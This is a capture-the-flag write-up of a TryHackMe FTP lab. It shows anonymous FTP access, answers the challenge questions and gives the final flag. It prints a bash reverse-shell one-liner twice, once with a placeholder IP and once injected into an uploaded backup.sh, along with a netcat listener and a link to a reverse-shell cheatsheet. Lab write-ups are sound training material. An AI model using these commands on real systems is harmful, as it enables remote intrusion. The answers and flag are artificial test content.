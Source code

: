 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 \(Data\)
* Port 21 \(Commands\)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

Name the directory on the FTP server that has data accessible by the "anonymous" user

```text
ftp 10.10.130.142
anonymous
ls
```

![](../.gitbook/assets/image%20%2858%29.png)

{% hint style="success" %}
public
{% endhint %}

What script gets executed within this directory?

```text
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](../.gitbook/assets/image%20%2853%29.png)

{% hint style="success" %}
backup.sh
{% endhint %}

What movie did Santa have on his Christmas shopping list?

```text
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](../.gitbook/assets/image%20%288%29.png)

{% hint style="success" %}
The Polar Express
{% endhint %}

Re-upload this script to contain malicious data \(just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```text
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](../.gitbook/assets/image%20%2849%29.png)

```text
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](../.gitbook/assets/image%20%2816%29.png)

```text
put backup.sh
```

![](../.gitbook/assets/image%20%285%29.png)

```text
nc -lnp 4444
cd /root
cat flag.txt
```

![](../.gitbook/assets/image%20%286%29.png)

{% hint style="success" %}
THM{even\_you\_can\_be\_santa}
{% endhint %}


